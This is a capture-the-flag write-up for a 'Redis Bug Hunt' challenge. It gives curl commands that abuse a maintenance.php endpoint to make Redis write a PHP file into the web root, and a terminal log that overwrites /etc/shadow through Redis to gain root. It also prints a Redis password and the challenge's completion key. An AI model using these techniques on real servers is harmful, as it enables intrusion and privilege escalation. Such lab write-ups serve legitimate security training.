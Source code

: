 # Redis Bug Hunt
Location: Kitchen

The objective is to retrieve the index.php file from the server.

## Approach 1: Pushing a PHP file into the Web Tree
This can be done using these commands:
```
curl http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html
curl http://localhost/maintenance.php?cmd=config,set,dbfilename,m.php
curl 'http://localhost/maintenance.php?cmd=set,test,<?php%20echo%20file_get_contents("index.php");%20?>'
curl http://localhost/maintenance.php?cmd=save
curl http://localhost/m.php --output -
```

## Approach 2: Become root
The Redis password can be found with the above method in the file maintenance.php, it is `R3disp@ss`.
```
echo "\n\n
root:cbMHDguL1fenw:16928:0:99999:7:::
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' -x set 1 < x
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' config set dir /etc
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' config set dbfilename shadow
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' save
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ ls -l /etc/shadow
-rw-r--r-- 1 root root 243 Dec 30 18:07 /etc/shadow
player@95bbb6f62400:~$ su -
Password: 
root@95bbb6f62400:~# cat /etc/runtoanswer.yaml 
# This is the config file for runtoanswer, where you can set up your challenge!
---

# This is the completionSecret from the Content sheet - don't tell the user this!
key: 4ec1769f83fd212bcb9d22b2316d8706
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIxMTkyMzYyNDgsMjg4Njk3MDE5LDQ3OD
k1OTI2Nyw3MzA5OTgxMTZdfQ==
-->